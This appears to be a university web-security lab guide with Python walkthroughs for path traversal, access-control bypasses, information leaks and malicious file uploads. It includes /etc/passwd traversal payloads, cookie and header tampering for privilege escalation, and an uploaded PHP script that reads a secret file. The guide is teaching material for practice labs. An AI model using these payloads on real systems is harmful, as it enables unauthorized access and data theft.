








When a URL contains input that is used by the application to navigate the file system directly with, it can allow an adversary access to files that normally would not be available from the web application. In this level, one can see a URI /image?filename= that may be vulnerable to this attack. Use the file path traversal syntax in Unix to navigate to the top level directory (../../../) access the server's user account file (/etc/passwd) then print out the results.
# <FMI> (Fill Me In) denotes a value you will need to modify
url = f'''https://{site}/image?filename=<FMI>'''
resp = s.get(url)
print(resp.text)This level is similar except that relative path traversals (e.g. ../) are now filtered out, but that doesn't account for alternate methods of exploitation such as the use of an absolute path. Adapt the URL parameter to solve the level.
Relative paths are again filtered out, but not recursively. When one filters out '../' from the following sequence '....//', what is the result? Use this technique to solve the level.
To send special characters in URLs, one typically URL-encodes the characters first. Thus, when typing a URL that has spaced in the filename such as 'http://foo/index backup.html', the browser will URL-encode to http://foo/index%20backup.html. On the server-side, a URL-decode operation is then performed to generate the original path with the special character in it. There can be some confusion as to whose responsibility it is on the server to do the decoding. Is it handled by the web framework automatically or does the web application have to do the decode before consuming the content? When filtering out special characters that are used for file traversal, this is important. If done multiple times, this can inject a vulnerability and allow the path traversal to happen. In Python, one can test out URL decoding via the urllib package that is built-in (via urllib.parse.unquote). To test this out, perform the following in a Python interpreter.
from urllib.parse import unquote
filename = '''..%252f..%252f..%252f'''
unquote(filename)
unquote(unquote(filename))Use the superfluous decode to again access /etc/passwd.
One way to limit traversal attacks is to force a filename given to start with a particular pattern. Unfortunately, this is easily bypassed using path traversal attacks seen previously. Begin the filename with '/var/www/images' then use the path traversal technique from the prior level to access /etc/passwdl.
One way to limit traversal attacks is to append an expected file extension to all content retrieved. Unfortunately, special characters such as the string termination character (e.g. a NULL) can be inserted into the URL via the URL-encoding mechanism described previously (%00).
In this set of labs, you will attempt to elevate your privileges and access functionality reserved for administrator accounts. Using this access, you will then perform protected actions such as the deletion of carlos's user account or the retrieval of his API key. To start with, we explore vertical access control issues where a user is able to elevate his/her access to functionality reserved for administrators of the site.
In this level, you first perform reconnaissance on the site by examining its robots.txt file. From this file a URI to a protected administrator panel is revealed. You can directly access this URI to delete the user carlos. The simplicity of this level allows us the opportunity to utilize additional features in Python. To begin with, the snippet below grabs the robots.txt file and uses a list comprehension to return all of the lines that contain the string 'admin' in it. The script then takes the first line, splits it using the space character, and then pulls out the second argument as the URI for the administrator panel.
url = f'https://{site}/robots.txt'
resp = s.get(url)
match_line = [line for line in resp.text.split('\n') if 'admin' in line]
uri = match_line[0].split(' ')[1]Once we've obtained the URI of the administrator panel, we can then retrieve it from the site. The page we retrieve has a set of links that includes one for deleting carlos. In our script, we can use BeautifulSoup to parse the page, find all <a> tags that contain the word 'carlos' in them, then pull the href from the tag to obtain the URI that will delete carlos. The script uses list comprehensions applied to the list of tags BeautifulSoup returns along with a predicate to filter out only those tags that contain the desired user. Finally, the script retrieves the URL to delete carlos and solve the level.
url = f'https://{site}{uri}'
resp = s.get(url)
soup = BeautifulSoup(resp.text,'html.parser')
carlos_delete_link = [link for link in soup.find_all('a') if 'carlos' in link.get('href')]
delete_uri = carlos_delete_link[0]['href']
s.get(f'https://{site}{delete_uri}')In this level, the administrator panel uses security by obscurity to hide itself. Unfortunately, viewing the landing page's source reveals its URI. This snippet finds the URI by getting all of the scripts on the page, pulling out the contents of the second one, and then finding the line in the script containing the hidden URI. Code from the prior Python script can then be used to delete carlos.
soup = BeautifulSoup(resp.text,'html.parser')
script = soup.find_all('script')[1].contents[0]
match_line = [line for line in script.split('\n') if 'admin-' in line]
uri = match_line[0].split("'")[3]Putting trust in any input that is supplied by a client, creates opportunities for exploitation. Without proper input validation on the backend, a client can use malicious input to access sensitive resources. In this level, the site is protected by a username and password. However, once a user logs in and navigates the site, it becomes apparent that particular parameters are being passed to the server from the client that might control access to the site. First start, by accessing the main page and visiting the Login page. Bring up the Developer Tools on the page and then use the given initial credentials wiener:peter to log in.
When logged in, visit the "Application" tab in the Developer Tools and then on the left, click on "Cookies" to examine what cookies are issued by the site for the browser to store. Find the cookie setting that might give you elevated access if you tamper with it appropriately.

We'll now construct the Python code for automatically solving this level. Note that fields with <FMI> denote values you must fill in. The code starts by logging into the site as we have done in prior levels using a Python requests session object that accumulates cookies.
import requests
from bs4 import BeautifulSoup
s = requests.Session()
site = '<FMI>'
login_url = f'https://{site}/login'
resp = s.get(login_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
logindata = {
'csrf' : csrf,
'username' : 'wiener',
'password' : 'peter'
}
resp = s.post(login_url, data=logindata)To tamper with a session's cookies, the code below creates one that follows the format discovered previously. Fill in the <FMI> fields to create a cookie that gives our session elevated privileges. The code then adds the cookie to the session.
cookie_obj = requests.cookies.create_cookie(domain=site, name='<FMI>',value='<FMI>')
s.cookies.set_cookie(cookie_obj)Finally, we are given the /admin path as the location of the administrator panel that can be used to delete the user carlos. Use the code for doing so from previous levels.
Visit the "Account login" page and inspect the form. Note that unlike the forms protected by the csrf token, the form only has two input fields: username and password.
<form class=login-form method=POST action=/login>
<label>Username</label>
<input required type=username name="username">
<label>Password</label>
<input required type=password name="password">
<button class=button type=submit> Log in </button>
</form>After logging in, visit "My Account" and view the button for updating your e-mail address.
Clicking on "Update email" invokes the jsonSubmit() function. With the developer console up, enter in your e-mail address and click the button. Note that the form submission causes a redirect to another web page, wiping out the initial submit request. Go back to "My Account" and enter in your e-mail address again. Before clicking on the button, go to the developer console and click on "Console". Enter in the following Javascript code that will send control to the debugger before the page unloads so you can view the submission before the redirection.
window.addEventListener("beforeunload", function() { debugger; }, false)Then click on the "Network" tab in the developer console before clicking on "Update email". Find the form submission request and view its format. As the console shows, the form submission is done via a JSON-encoded object versus prior levels that used the original www-form-urlencoded format.

With Python requests, we can perform POST requests using the JSON format via a different keyword argument. By supplying a dictionary to the keyword argument json, the package will format the dictionary as a JSON object to be sent to the server as above. The code below logs into the site with the given credentials, then submits the form requests to change the account's e-mail address via JSON. To avoid following the redirection, the allow_redirects keyword is set to false so we can obtain the intermediate response before being sent back to the main page. Run the script on your site and view the response.
s = requests.Session()
login_url = f'https://{site}/login'
login_data = { 'password' : 'peter', 'username' : 'wiener'}
resp = s.post(login_url, data=login_data)
change_url = f'https://{site}/my-account/change-email'
json_data = {'email' : 'OdinID@pdx.edu'}
resp = s.post(change_url,json=json_data, allow_redirects = False)
print(resp.status_code)
print(resp.text)The form submission results in an HTTP redirect with status code 302, but it also sends back a JSON object in its response body with the role that has been assigned to the user. Ideally, this role can never be modified directly by the client. However, if the server blindly incorporates the JSON object given by the client into its backend data structure, a client setting the role in the change-email request can elevate privileges. To try this out, as the level description indicates, specify your role to be "2" to see if you can trick the backend into giving you administrator privileges.
json_data = {'email' : 'OdinID@pdx.edu', '???' : 2}
resp = s.post(change_url,json=json_data, allow_redirects = False)
print(resp.text)If successful, you can then revisit the account page to see that you now have access to the admin panel.

You may use the browser to delete the carlos account or do so programmatically using the code from prior levels to complete the level.
Content distribution networks (CDNs), web application firewalls (WAFs), web proxies, web caches, and load balancers will accept HTTP requests and forward them on towards their ultimate destinations. Oftentimes, they will rewrite the URLs being requested in the process. To preserve the original request, they might include an HTTP header that indicates the original request. For example, an experimental header such as X-Original-URL: might specify what the original request might have been for.
Problems arise when an application uses the URL to limit access. In this level, what happens when one attempts to access /admin?
url = f'https://{site}/admin'
resp = s.get(url)
print(resp.text)Filtering done on the front-end appears to block the request. Now try a request that has the X-Original-URL: header set to the path.
url = f'https://{site}/'
resp = s.get(url, headers = {'X-Original-URL' : '/admin'})
print(resp.text)We can slip by the filter using this header. Note that when sending parameters in this case, we must attach them to the original URL rather than the path specified by the X-Original-URL: header.
url = f'https://{site}/?username=carlos'
resp = s.get(url, headers = {'X-Original-URL' : '???'})
print(resp.text)In this level, access control prevents a logged in user from submitting a form that is used by admin users to upgrade users to administrators. While preventing the form submission via HTTP POST iis implemented, HTTP forms can be submitted via GET requests as well. Login using the administrator:admin credentials and navigate to the administrator panel at /admin. Upgrade a user to administrator and view the submission in the developer console of the browser to see the URL the form is posted to and the data that is posted. Downgrade the user and then log back out.
Log out and log in as the regular user with credentials wiener:peter. Attempt to visit the administrator panel directly by appending /admin manually. While this has been restricted, perhaps the upgrade URL has not. Use the prior Python code to log in as the user, then attempt the upgrade and see what the result is.
upgrade_data = {
'???' : 'upgrade',
'???' : 'wiener'
}
url = f'https://{site}/admin-roles'
resp = s.post(url, data = upgrade_data)
print(resp.status_code)
print(resp.text)While the POST submission of the form may be protected since that's what is encoded on the page, the form can also be submitted via GET. See if the application restricts it by repeating the request via GET as described here.
In the next set of labs, we explore horizontal access control issues where functionality between valid user accounts is not protected properly.
Log in with the given credentials and click on "My account" to view your API key. View the URL that this corresponds to and observe that the user ID is encoded in the URL. it should not be possible for one to change the value manually and view another User ID's information. Since the goal is to get the API key of carlos, see if changing the user ID allows you to.
This level is quite trivial which makes it a good opportunity to practice with Python and BeautifulSoup. After using the prior Python code to login to the site, the script can then access the profile page of carlos. On the page, is a <div> element that contains the string "Your API Key is: ...". The Python code below uses BeautifulSoup to find the <div> element containing the string API, then splits the text to pull out the value of the API key.
resp = s.get(url_to_retrieve_carlos_profile)
soup = BeautifulSoup(resp.text,'html.parser')
div_text = soup.find('div', string=re.compile('API')).text
api_key = div_text.split(' ')[4]Finally, the level is solved upon submission of the API key to the "Submit solution" site.
url = f'https://{site}/submitSolution'
resp = s.post(url,data={'answer':api_key})This level is similar to the previous level, but requires you to navigate the site to find content posted by carlos that might reveal his randomly generated user ID. Given a blog post authored by carlos, a link that has as its text 'carlos' can be extracted and parsed to reveal this user ID using the Python code below.
carlos_userid = soup.find('a',string='carlos')['href'].split('=')[1]Execute-After-Redirect vulnerabilities occur when a web application does not immediately terminate a script after it has decided to redirect the request to another destination. As a result, leakage of information from the continued execution of the script. For example, consider this PHP script from this paper that checks to see if a username is associated with a session and redirects users to the main landing page, if not. After setting the Location: header to redirect the request, the script should exit, rather than continue.

A fixed version is below:

Log into the site with the given credentials wiener:peter. Click on "My account" and see that your username shows up in the URL. Bring the developer console up, change the username to carlos in the URL, then retrieve the page. The browser automatically redirects itself to the home page. There are many ways to capture the response before redirection. As we have seen earlier, Python requests has an allow_redirects keyword argument we can set. Use this to get the API key of carlos and solve the level.
resp = s.get(carlos_account_url, allow_redirects=False)In this level, password leakage occurs when the site pre-fills form fields inappropriately. By using horizontal escalation to access the administrator's page as the given user, a leaked password can then be used to log in as the administrator to delete the user carlos.
admin_password = soup.find('input',{'name':'password'}).get('value')In this level, functionality to download transcripts of a chat does so using predictable file names. Examine this functionality to find a way to download an earlier transcript that reveals the password of carlos. Use it to login.
Log in using the administrator:admin credentials and visit the admin console (/admin). Bring up the developer console and upgrade carlos to an administrator. View the form data submitted to '/admin-roles' in the POST. The page redirects to a confirmation page. Confirm the upgrade and see the form data that is submitted in the POST. What has changed?
Log out and log back in using the wiener:peter credentials. Attempt to access both /admin and /admin-roles via the browser (e.g. via GET requests) Both are protected. Using a Python script, see if the POST that confirms the upgrade is similarly protected.
adminrole_url = f'https://{site}/admin-roles'
upgrade_data = {
'username' : 'wiener',
'???' : 'upgrade',
'???' : 'true'
}
resp = s.post(adminrole_url,data=upgrade_data)Log in using the administrator:admin credentials and visit the admin console (/admin). Bring up the developer console and upgrade carlos to an administrator. Is the form submission done as a GET or a POST? Copy the request and then downgrade carlos back to a normal user.
Log out and log back in using the wiener:peter credentials. Attempt to access both /admin and the request copied earlier to see if either request succeeds. In this level, the server uses the Referer: HTTP request header to check the URL of the page that originated the request. In normal operation, the request would come from the '/admin' page and the only user who can access that route is the administrator. All requests that do not originate from this page are simply denied. Unfortunately, the client controls the Referer: header and can change it to bypass this check. For example, via Python requests, one can do:
resp = s.get(admin_upgrade_url,headers={'referer' : admin_url})This web application fails to sanitize its error messages. As a result, triggering an error causes an information leak that an adversary can leverage. To demonstrate this, examine the site and the products it contains. Then, trigger the leak by giving the site a productId that does not exist to reveal the version number that you.
Web Frameworks often pass secrets such as API keys environment variables. In addition, they may also support debug pages that are meant for use in the development process. These pages would include the environment variables the web application depends upon. If such debug pages aren't appropriately protected, secret information can be exposed. In this level, the main landing page reveals a debug route to the PHP runtime that implements the site. View the HTML of the page to find it. Then, visit the disclosed URI to reveal the environment variables in order to expose the SECRET_KEY that can be used to solve the level.
Backup files left in a production environment can be a source of information leaks. In this level, the robots exclusion standard file reveals a directory that contains a backup of a program file. Within it is a password for a backend database. Find it and use it to solve the level
One of the most dangerous things a site can do is allow file uploads. An adversary can attempt to upload a malicious file, perhaps one that can even execute code, then visit it subsequently in order to execute the embedded code. To show this vulnerability, bring up the WFP1 VM and visit the landing page.
The site allows you to choose a file from your file system and upload it. It then provides you a link to access the file uploaded.

From the URL of the exercise, the programming language that is being used appears to be PHP. What if we can upload a file in this programming language and then access it by clicking on its upload link? Upload a script that outputs a directory listing via 'ls' when clicked.
Try uploading the same file used in the previous exercise.
The site seems to be doing some filtering to detect whether or not someone is attempting to upload a script. One of the problems with filters is that they can be incomplete and fail to catch all malicious content. Create a file that lists the current working directory of the web server via 'pwd'. Then, test 3 different file extensions used for PHP scripts to see which ones have been filtered properly. Discover the extension that bypasses the filter and use it to upload a file that performs the directory listing.
In this lab, logged in users are able to upload an avatar to their account profile. Unfortunately, the web application does not validate the file type or file content of the upload, allowing an adversary to upload a malicious script that can exfiltrate data or execute code. In this level, the goal is to access a secret in /home/carlos/secret and then submit it to the solution server of the site.
We can construct our exploit in Python by first using the login script used in previous levels to parse the CSRF token in the login form and then to login with the given credentials. This redirects us to the /my-account profile page where one of the forms allows the user to upload an avatar. File uploads are done as multipart form data requests to an upload URL specified in the action attribute. Inspect the form and answer the following question:
hidden?When specifying the file upload, there are two parts: the name of the file on the upload server you want to create and the content that you want to have in the file. This is specified as a tuple. The script below uploads the string 'Hello world!' as an avatar, specifying the name of the file to create on the server as "hello.txt" via the multi-part form.
upload_url = f'https://{site}/my-account/avatar'
multipart_form_data = {
'csrf' : (None, csrf),
'user' : (None, 'wiener'),
'avatar' : ('hello.txt', 'Hello world!')
}
resp = s.post(upload_url, files=multipart_form_data)Run the snippet, bring up a web browser, and open the avatar broken image link from the account page as shown below in a new tab.

Verify that the message appears.
We can now upload a malicious PHP script (secret.php) to dump the file contents of the file we're interested in. By accessing the URL where the script is stored, we may then be able to have PHP execute the script and return the file's contents. The snippet below does so by specifying a PHP script that uses PHP's file_get_contents() function to access the secret file and echo out its contents. It then accesses the script in order to execute its payload.
upload_url = f'https://{site}/my-account/avatar'
multipart_form_data = {
'csrf' : (None, csrf),
'user' : (None, 'wiener'),
'avatar' : ('secret.php', "<?php echo file_get_contents('/home/carlos/secret'); ?>")
}
resp = s.post(upload_url, files=multipart_form_data)
secret_url = f'https://{site}/files/avatars/secret.php'
resp = s.get(secret_url)
secret = resp.textThe result of the script's execution is the secret stored in /home/carlos/secret that we can then simply submit to the solution site to finish the level.
solution_url = f'https://{site}/submitSolution'
solution_data = {
'answer' : secret
}
s.post(solution_url, data=solution_data)The developer of the site has fixed the prior vulnerability by disallowing all content-types except image/png and image/jpeg for avatar uploads. Begin by using the prior solution script to upload the PHP script. Note that the csrf token you use to login will be different from the csrf token to upload the avatar. Print out the response returned after uploading the avatar as shown below:
# Upload malicious avatar
resp = s.post(upload_url, files=multipart_form_data)
print(resp.text)Unfortunately, unless the developer actually verifies the content matches its content type, an adversary can still upload a script and have it be executed by lying about the script's content type. In Python requests, one can specify the Content-Type of the file upload as an additional parameter in the form data. As shown below, the script is labeled as an image/jpeg, allowing for it to be uploaded and subsequently executed. Use it to solve the level.
multipart_form_data = {
'csrf' : (None, csrf),
'user' : (None, 'wiener'),
'avatar' : ('secret.php', "<?php echo file_get_contents('/home/carlos/secret'); ?>", 'image/jpeg')
}